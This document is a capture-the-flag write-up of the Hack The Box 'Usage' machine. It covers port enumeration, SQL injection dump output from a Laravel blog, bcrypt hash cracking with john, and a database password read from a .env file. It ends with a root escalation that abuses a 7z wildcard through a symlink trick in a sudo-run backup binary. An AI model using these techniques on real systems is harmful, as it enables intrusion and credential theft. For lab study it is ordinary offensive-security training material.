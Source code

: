 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/hack-the-box/usage/"}
---
```


# Enum
## Ports
PORT   STATE SERVICE REASON 
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
##  Users
admin:whatever1
### system
dash
xander:`3nc0d3d_pa$$w0rd`
##  Passwords
whatever1
`3nc0d3d_pa$$w0rd`
## OS
`Linux usage 5.15.0-101-generic #111-Ubuntu SMP Tue Mar 5 20:16:58 UTC 2024 x86_64`
Ubuntu 22.04.4 LTS \n \l
## 22
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 a0f8fdd304b807a063dd37dfd7eeca78 (ECDSA)
|_  256 bd22f5287727fb65baf6fd2f10c7828f (ED25519)
## 80
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|http-title: Daily Blogs
|http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
PHP/8.1.2-1ubuntu2.14
|Laravel version|10.18.0|

/MVwt4IDP.php4: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
### Cookie
Cookie XSRF-TOKEN created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
### http://usage.htb/forget-password
Create an account and try to recover the passwd
sqli is posible
# Exploit
## Sqli
Database: usage_blog
[15 tables]
+------------------------+
| admin_menu             |
| admin_operation_log    |
| admin_permissions      |
| admin_role_menu        |
| admin_role_permissions |
| admin_role_users       |
| admin_roles            |
| admin_user_permissions |
| admin_users            |
| blog                   |
| failed_jobs            |
| migrations             |
| password_reset_tokens  |
| personal_access_tokens |
| users                  |
+------------------------+

Database: usage_blog
### Table: admin_users
[8 columns]
+----------------+--------------+
| Column         | Type         |
+----------------+--------------+
| avatar         | varchar(255) |
| created_at     | timestamp    |
| id             | int unsigned |
| name           | varchar(255) |
| password       | varchar(60)  |
| remember_token | varchar(100) |
| updated_at     | timestamp    |
| username       | varchar(190) 
Database: usage_blog
Table: admin_users
[1 entry]
+----------+
| username |
+----------+
| admin    |
+----------+
| password                                                     |
+--------------------------------------------------------------+
`$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2`

### Table: users
[8 columns]
+-------------------+-----------------+
| Column            | Type            |
+-------------------+-----------------+
| created_at        | timestamp       |
| email             | varchar(255)    |
| email_verified_at | timestamp       |
| id                | bigint unsigned |
| name              | varchar(255)    |
| password          | varchar(255)    |
| remember_token    | varchar(100)    |
| updated_at        | timestamp       |
+-------------------+-----------------+
Table: users
[9 entries]
+----------------------+
#### email
+----------------------+
| asd@asd.asd          |
| karkor23@hotmail.com |
| n3vada@usage.htb     |
| raj@raj.com          |
| raj@usage.htb        |
| test@arkane.org      |
| test@test.com        |
| test@tet.com         |
| testtester@test.com  |
+----------------------+
## Crack the hash
`$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2`
`john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash`
`whatever1`
login in the admin page
## Get access
[LFI]
https://flyd.uk/post/cve-2023-24249/
# Escalation
-rwxrwxr-x 1 dash dash 1176 Aug 23  2023 /var/www/html/project_admin/.env
DB_CONNECTION=mysql
1351   │ DB_HOST=127.0.0.1
1352   │ DB_PORT=3306
1353   │ DB_DATABASE=usage_blog
1354   │ DB_USERNAME=staff
1355   │ DB_PASSWORD=s3cr3t_c0d3d_1uth
##  Get access like xander
Using password found in ``**.monitrc**``
## Get root
sudo -l
/usr/bin/usage_management
`ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=fdb8c912d98c85eb5970211443440a15d910ce7f, for GNU/Linux 3.2.0, not stripped`

### strings /usr/bin/usage_management
/var/www/html
/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *
Error changing working directory to /var/www/html
/usr/bin/mysqldump -A > /var/backups/mysql_backup.sql

#### 7z wildcard spare
[[Wildcard spare#7z\|Wildcard spare#7z]]
```sh
cd /var/www/html/
touch '@root.txt'
ln -s -r /root/root.txt root.txt
sudo /usr/bin/usage_management #Opcion 1 (Project Backup)
```